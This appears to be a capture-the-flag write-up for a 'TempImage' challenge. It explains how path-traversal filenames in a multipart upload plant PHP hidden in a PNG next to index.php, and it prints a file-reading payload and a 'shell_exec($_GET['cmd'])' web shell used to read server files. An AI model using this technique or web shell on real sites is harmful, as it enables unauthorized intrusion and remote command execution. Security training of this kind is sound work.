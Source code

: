 # TempImage

## 1. Flag 2

Tried uploading files 

download.png -->> 820c946b78eb0d3b0dfe2067189de065_download.php.png

download2.png -->> 83ba84583557e3b03ad3bdc749370e73_download2.png

Files were renamed to [md5hash]_[realfilename].[ext]

Tried to download 159df48875627e2f7f66dae584c5e3a5_flag.txt and some other didn't work

Watched a H101 file inclusion video, got info about file multipart/form-data esp boundary param.

Connected Burp Suite and tried changing the filename param to `/etc/passwd` got following error.

```php+HTML
Warning: move_uploaded_file(files/c5068b7c2b1707f8939b283a2758a691_/etc/passwd): failed to open stream: No such file or directory in /app/doUpload.php on line 7

Warning: move_uploaded_file(): Unable to move '/tmp/phpSayLpg' to 'files/c5068b7c2b1707f8939b283a2758a691_/etc/passwd' in /app/doUpload.php on line 7
ERROR: Upload failed
```

Got all the info required. The file content when uploaded is present at `/tmp/phpSayLpg`  and is being moved to files/<md5sum of filename>_file_name.<ext>

Great!

Modified  `download.png` (downloded from google) with embedded php code included just `<?php echo "hello world" ?> ` using exiftool to check (BTW using exiftool was causing problem 'unexpected end of file' error, attached payload manually at the end of file)

![Screen Shot 2020-05-17 at 12.55.13 AM](/Users/rajsharm/Desktop/Screen Shot 2020-05-17 at 12.55.13 AM.jpg)

Uploaded the png, intercepting in Burp and changing the file name to `/../../download.php` in the filename param as well as in each boundary.

This way file gets moved to the directory where index.php is present because the call to move_uploaded_file() will be called with `files/0742d73fcdc2f4f928d8995aaac3c024_/../../download.php`

Now we have RCE!

Embedded `<?php echo file_get_contents("index.php"); ?>` in png, server returned the contents of index.php, viewed the source code **got the FLAG**

## 2. Flag 1

Now that we have RCE, embedded below

```php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
```

in the png and uploaded.

Now we have shell access.

Did cat on all the files present. Using `http://35.227.24.107/60923ee32a/download.php?cmd=cat doUpload.php`

**Found the Flag in doUpload.php**

